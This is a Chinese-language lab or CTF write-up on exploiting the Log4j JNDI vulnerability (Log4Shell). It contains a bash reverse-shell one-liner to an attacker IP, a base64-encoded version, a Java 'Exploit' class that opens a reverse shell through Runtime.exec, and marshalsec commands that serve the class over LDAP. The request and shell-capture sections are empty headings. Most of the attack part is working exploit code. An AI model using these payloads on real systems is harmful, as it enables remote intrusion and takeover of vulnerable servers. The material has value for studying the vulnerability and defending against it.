







# 题解思路


1. 成因

该漏洞的主要原因是log4j在日志输出中，未对字符合法性进行严格的限制，执行了JNDI协议加载的远程恶意脚本，从而造成RCE。这里面有一个关键点就是，什么是JNDI,为什么JNDI可以造成RCE

2. 编写恶意代码
   1. 反弹shell
    ```bash
    bash -i >& /dev/tcp/192.168.31.241/44443 0>&1
    ```
   2. 进行base64编码
    
    
    ```bash
    bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMxLjI0MS80NDQ0MyAwPiYx}|{base64,-d}|{bash,-i}
    ```
    3. 编写恶意类为了在LDAP服务中进行使用
    ```java
    import java.lang.Runtime;
    import java.lang.Process;

    public class Exploit {
        public Exploit() {
            try {
                Runtime.getRuntime().exec("/bin/bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIwMC4xMzEvNzc3NyAwPiYx}|{base64,-d}|{bash,-i}");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }

        public static void main(String[] argv) {
            Exploit e = new Exploit();
        }
    }
    ```
    4. 编译
    `javac .\Exploit.java`
    5. 开启服务转发
    


    实际应用过程中需要使用公网来反弹，或者端口映射
   
3. 搭建服务器1389为LDAP服务的端口
   
    现在我们在攻击机marshalsec-0.0.3-SNAPSHOT-all.jar所在目录开启LDAP监听，命令中的1389为LDAP服务的端口
    
    [Repo](https://github.com/mbechler/marshalsec.git)

    

    `git clone https://github.com/mbechler/marshalsec.git`


    ## 开启服务
    ``bash
    利用mvn clean
    

    
    
    ```bash
    java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.31.241:8080/#Exploit" 1389
    ```
    

    ## 发送请求
    


    ## 获取shell
    